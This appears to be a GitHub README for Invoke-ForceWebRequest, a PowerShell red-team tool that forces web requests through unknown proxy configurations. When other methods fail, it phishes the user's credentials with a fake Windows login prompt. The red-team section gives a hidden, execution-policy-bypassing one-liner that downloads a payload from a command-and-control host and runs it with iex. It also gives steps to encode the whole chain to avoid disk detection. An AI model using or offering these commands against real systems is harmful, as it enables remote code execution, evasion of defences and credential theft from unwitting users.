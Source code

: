 # Invoke-ForceWebRequest (@daniel0x00)
Force HTTP GET in a computer with unknow internet config, trying to download the URL by downloading it directly and if it can't then using default proxy credentials and .pac proxy list. If none o them works, it will trick the user and request his credentials using the Windows default credential prompt.

## Description

Normally this script should be used in a pentest environment, when you're running this code in a target computer where you don't know exactly what is the outbound internet config. Internally, Invoke-ForceWebRequest will use another two functions:
* [Invoke-BasicWebRequest](https://github.com/daniel0x00/basicwebrequest): another function writed by me which allow me to create http webrequest with proxy config. Similar (but very basic) to Invoke-WebRequest native PowerShell function (which is only available on PowerShell v3+).
* [Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt): an improved version of this great function wrote by [@enigma0x3](https://github.com/enigma0x3)

## Usage

Using the function in a computer with no proxy or proxy with no authentication
```
PS C:\> . .\Invoke-ForceWebRequest.ps1
PS C:\> Invoke-ForceWebRequest google.com -DummyString html -Verbose
VERBOSE: Trying http get with method #1: simple request...

StatusCode Content
---------- -------
       200 <!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="es"><head><meta content="IE=edge" http-equiv="X-UA-Co...
``` 

Using the function in a computer that have an authenticated proxy, user will be prompt for a valid proxy credentials. Note that user will be prompt until he/she writes a valid credential.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/requesting-credentials.png "powershell webrequest proxy credentials")

When the user writes a valid credential, html will be returned.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebrequest/proxy-enabled.png "powershell webrequest proxy credentials granted")

 

From red-team point of view: let's say you are able to run some PowerShell code in the target machine through a VBA Macro or a malicious EXE, but you really don't know how the computer is connected to internet. So you run this payload to be sure you will get response from your target:
```
(assuming you wrote the script in the target computer to $env:temp folder)

C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -c "gc $env:temp\Invoke-ForceWebRequest.ps1 | out-string | iex; Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }"

    1: it will download code from URL comandandcontrol.com/payload.txt
    2: then it will check if the content of payload.txt is correct by checking a dummy-string that you know is inside payload.txt
    3: invoke (run) code of payload.txt (if you're a redteamer it will be some malicious code)
``` 

If you do not want to touch disk, you can also encode the entire function and the payload with [@samratashok](https://github.com/samratashok) nishang [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), something like this:
```
1: Create a .ps1 file with the following, and call it for example 'temp.ps1'
    
    function Invoke-ForceWebRequest { ...... }

    Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }

2: Encode the entire file with @samratashok Invoke-Encode, which will create an 'encodedcommand.txt' file in your desktop:

    PS C:\> Invoke-Encode -DataToEncode C:\temp.ps1 -OutCommand

3: Copy the content of encodedcommand.txt and then use it in your PS code that you will execute in your target:

    C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -enc "ENCODED_COMMAND"
``` 
